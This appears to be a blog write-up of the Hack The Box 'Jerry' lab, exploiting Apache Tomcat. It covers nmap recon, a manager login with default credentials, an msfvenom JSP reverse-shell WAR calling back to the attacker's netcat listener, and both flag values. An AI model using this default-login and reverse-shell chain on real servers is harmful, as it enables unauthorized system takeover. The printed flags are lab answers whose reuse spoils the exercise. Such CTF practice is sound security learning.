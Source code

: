 +++
title = "HTB: Jerry"
date = "2022-07-08T13:08:16-05:00"
author = "l0gan334"
authorTwitter = "" #do not include @
cover = "Jerry.png"
tags = ["hacking", "ctf", "eJPT-like", "HTB", "windows", "apache", "tomcat"]
keywords = ["", ""]
description = "**HTB | Jerry - Write up**"
showFullContent = false
readingTime = false
hideComments = false
+++

**Jerry** is probably the easiest box in HTB, it's only challenge is to exploit an **Apache Tomcat** instance. 

We will do this by uploading a malicious **WAR file** that once opened will get us a reverse shell and access to both flags, so this time there's no privesc.

# **```Recon```**

# Nmap

The nmap scan looking for opened ports finds only one:

```bash
❯ nmap -p- -sS --min-rate 5000 --open -v -n -Pn 10.129.102.35 -oG allPorts

Host discovery disabled (-Pn). All addresses will be marked up and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-08 13:15 -05
Initiating SYN Stealth Scan at 13:15
Scanning 10.129.102.35 [65535 ports]
Discovered open port 8080/tcp on 10.129.102.35
Completed SYN Stealth Scan at 13:16, 26.53s elapsed (65535 total ports)
Nmap scan report for 10.129.102.35
Host is up (0.15s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds
           Raw packets sent: 131087 (5.768MB) | Rcvd: 19 (836B)
```

This is usually a webserver and also the default port for **Apache Tomcat**:

```bash
❯ nmap -sCV -p8080 10.129.102.35 -oN targeted

Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-08 13:16 -05
Nmap scan report for 10.129.102.35
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.13 seconds
```

Indeed we seem to be dealing with a **Tomcat**, let's check it:

{{< image src="/img/jer1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

This is the default panel so there isn't anything interesting going on here. 

In a Tomcat there's usually the route **/manager** were we can login:

{{< image src="/img/jer2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


Even though we have no credentials we can try with default ones:

{{< image src="/img/jer5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

The correct one end up to be **tomcat:s3cret** and we get access:

{{< image src="/img/jer6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

**```Foothold```**
# Exploiting Tomcat

In Tomcat there's a famous vulnerability were you are able to upload a malicious **WAR** file that will get you a reverse shell.

{{< image src="/img/jer8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


We can build it with **msfvenom**.

With Wappalyzer we see that the website works with java so we are going to use a java payload:

{{< image src="/img/jer9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}



```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.161 LPORT=334 -f war -o shell.war

Payload size: 1095 bytes
Final size of war file: 1095 bytes
Saved as: shell.war
```

Now we set the netcat and upload the file:

{{< image src="/img/jer7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


```powershell
❯ nc -lvnp 334
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.102.35.
Ncat: Connection from 10.129.102.35:49192.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Perfect, and we are also already **system**:
```powershell
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

As a privileged user we can get both flags:
```powershell
 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,365,947,904 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

See you next time!